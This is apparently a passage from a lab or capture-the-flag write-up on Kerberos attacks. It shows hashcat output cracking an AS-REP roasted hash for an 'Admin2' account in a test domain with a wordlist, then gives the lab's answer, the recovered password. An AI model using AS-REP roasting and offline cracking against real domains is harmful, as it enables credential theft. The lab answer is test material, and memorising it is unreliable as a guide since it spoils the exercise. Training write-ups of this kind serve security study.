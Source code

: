 ```
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

$krb5asrep$23$Admin2@CONTROLLER.local:312d3e75042839a3af33ca7292416983$1139e48ee8ef89392f0eea38bf7b035ead1c641713e71aa24ad008b117330c81c262fc9aff21f63bcdd5c7c090f1df3cb014a79eaffa554811decedc5a1aa368c20cbdb469fe6c40a6e63c8abf93d5aa8678ef3675747797b58b3a2aaa9e5aaa0ddb49fbca36bdb038d05496d396003d22e3fb958957d1a5e1f4cb2a85369dfbd2ec960a11000c0aaf918fd3d9884d30738bc1a5a8d9406e4de2d032ba5cb22559153349cb86b3ad86b9b66dfa6795894fd0015a78836eb13d0b8c97f2af9989a3f15371f4d427c6d4b7391cf5a6045f450f7d3dcb722188cee829a737c117df88222b51580f9c91f9dc7861a7e1b5d0a18de797:P@$$W0rd2
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$Admin2@CONTROLLER.local:312d3e7504283...8de797
Time.Started.....: Sat Aug 20 14:37:35 2022 (0 secs)
Time.Estimated...: Sat Aug 20 14:37:35 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   424.3 kH/s (0.99ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1024/1240 (82.58%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> moomoo
Hardware.Mon.#1..: Util: 29%

Started: Sat Aug 20 14:37:34 2022
Stopped: Sat Aug 20 14:37:37 2022

```
What is the Admin's Password?
`P@$$W0rd2`
